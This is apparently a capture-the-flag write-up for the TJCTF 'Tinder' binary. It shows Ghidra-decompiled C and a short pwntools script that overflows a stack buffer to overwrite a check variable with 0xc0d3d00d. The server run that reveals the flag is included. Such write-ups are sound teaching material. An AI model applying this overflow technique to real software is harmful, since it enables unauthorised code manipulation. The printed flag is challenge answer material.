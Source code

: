 # Tinder

![](chall.png)

We are given an [ELF 32-bit binary](match). Let's perform a buffer overflow.

I decompiled the binary in [ghidra](https://ghidra-sre.org/) to see what it does.

```c
int input(char *str,float f)
{
  size_t sVar1;
  char *pcVar2;

  fgets(str,(int)ROUND(f * 16.00000000),stdin);
  sVar1 = strlen(str);
  if (1 < sVar1) {
    pcVar2 = strchr(str,10);
    if (pcVar2 == (char *)0x0) {
      do {
        str = (char *)fgetc(stdin);
      } while (str != (char *)0xa);
    }
    else {
      sVar1 = strlen(str);
      str = str + (sVar1 - 1);
      *str = '\0';
    }
    return (int)str;
  }
  puts("No input detected. Registration failed.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

int main(void)
{
  char local_a8 [32];
  char local_88 [64];
  char local_48 [16];
  char local_38 [16];
  char local_28 [16];
  FILE *local_18;
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = 0;
  setup();
  puts("Welcome to TJTinder, please register to start matching!");
  printf("Name: ");
  input(local_28,1.00000000);
  printf("Username: ");
  input(local_38,1.00000000);
  printf("Password: ");
  input(local_48,1.00000000);
  printf("Tinder Bio: ");
  input(local_88,8.00000000);
  putchar(10);
  if (local_14 == -0x3f2c2ff3) {
    printf("Registered \'%s\' to TJTinder successfully!\n",local_38);
    puts("Searching for matches...");
    sleep(3);
    puts("It\'s a match!");
    local_18 = fopen("flag.txt","r");
    if (local_18 == (FILE *)0x0) {
      puts("Flag File is Missing. Contact a moderator if running on server.");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    fgets(local_a8,0x20,local_18);
    printf("Here is your flag: %s",local_a8);
  }
  else {
    printf("Registered \'%s\' to TJTinder successfully!\n",local_38);
    puts("Searching for matches...");
    sleep(3);
    puts("Sorry, no matches found. Try Again!");
  }
  return 0;
}
```

The executable asks for four inputs, Name, Username, Password, and Tinder Bio. It then checks if `local_14` is equal to `0xc0d3d00d`. If it is, it prints the flag.

I made a python script to overwrite local_14 with `0xc0d3d00d`. I decided to use the final input for whatever reason. I overwrote all the other string buffers and the file pointer with passing to get to `local_14`. Then, all that's left is to overwrite `local_14` with `0xc0d3d00d`.

```python
for i in range(3):
    r.send(b'a\n')

filler = b'B9alaLbY4e2rTxuWlzHbzvk7K8bKD08bpJrNsivp1AxxTcz9lCCiN3TFMLjH09rcQe5RQfp0CynfYbfZIiKjutBC7R0fkkcd5a2t0XhsBt2d7BxNN6qT'

r.send(filler)
r.send(p32(0xc0d3d00d))
r.send(b'\n')

r.interactive()
```

I got the filler data by using an online random string generator and then finding the end of the padding using gdb, but you can easily just count the bytes.

```c
char local_88 [64];
char local_48 [16];
char local_38 [16];
char local_28 [16];
FILE *local_18;
int local_14;
```

```python
filler = b'A' * (64 + 16 + 16 + 16 + 4)
```

Now that I think about it, that may have been smarter.

```
$ py sol.py rem
[+] Opening connection to p1.tjctf.org on port 8002: Done
[*] Switching to interactive mode
Welcome to TJTinder, please register to start matching!
Name: Username: Password: Tinder Bio:
Registered 'IiKjutBC7R0fkkcd5a2t0XhsBt2d7BxNN6qT\xd0\xd3\xc0' to TJTinder successfully!
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```

Flag: `tjctf{0v3rfl0w_0f_m4tch35}`
